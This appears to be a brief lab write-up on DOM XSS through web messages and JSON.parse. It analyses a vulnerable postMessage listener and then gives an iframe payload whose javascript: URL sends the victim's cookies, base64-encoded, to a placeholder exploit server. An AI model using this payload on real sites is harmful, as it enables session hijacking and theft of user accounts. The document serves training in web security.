

# DOM XSS using web messages and JSON.parse



**Script analysis:**

- Adds an event listener to receive messages via `postMessage()`.
    
- Declares three variables: `iframe`, `ACMEplayer`, and `d`.
    
- Injects/creates an `iframe` element.
    
- Attempts to parse the incoming message payload as JSON.
    
- Enters a `switch` statement — the relevant branch is the `load-channel` case, where the attacker’s malicious data is loaded via `postMessage()`.


```js
<iframe src="https://<IP>/"
        onload='this.contentWindow.postMessage(
          JSON.stringify({
            type: "load-channel",
            url: "javascript:fetch(`https://<EXPLOIT-SV>/?cookie=`+btoa(document.cookie))"
          }), "*")'>
</iframe>
